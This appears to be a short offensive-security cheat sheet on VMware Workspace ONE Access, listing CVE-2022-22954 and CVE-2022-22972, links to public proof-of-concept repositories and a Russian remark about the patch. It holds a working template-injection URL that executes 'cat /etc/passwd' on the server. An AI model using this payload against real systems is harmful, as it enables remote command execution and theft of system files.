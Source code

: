 # Workspace ONE Access

## CVE-2022-22954: SSTI

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
```

PoC: [https://github.com/sherlocksecurity/VMware-CVE-2022-22954](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)

## CVE-2022-22972: Auth Bypass

На Linux серверах. Вероятно связан с VMWare Horizon. Эксплоита нет, патч вышел, скачать не могу: [https://kb.vmware.com/s/article/88438](https://kb.vmware.com/s/article/88438)

PoC: [https://github.com/horizon3ai/CVE-2022-22972](https://github.com/horizon3ai/CVE-2022-22972)
